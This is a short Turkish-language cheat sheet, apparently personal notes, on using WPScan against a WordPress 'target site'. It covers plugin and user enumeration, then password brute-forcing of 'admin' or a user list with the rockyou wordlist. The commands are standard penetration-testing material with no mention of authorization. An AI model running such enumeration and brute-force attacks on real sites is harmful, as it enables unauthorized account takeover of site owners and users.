 hedef site üzerinde kullanılan pluginleri bulma

```bash
wpscan --url http://<site-adresi> --enumerate p
```
hedef site üzerinde kullanıcı bulma

```bash
wpscan --url http://hedefsite.com -e u
```
```bash
/ bunları siledebiliriz boşluk bırakıyor onlar !!!
```

Brute Force Şifre Denemesi
```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames admin \
--max-threads 10

```
 Ekstra: Kullanıcı Listesi ile Brute Force

```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames users.txt \
--max-threads 10

```

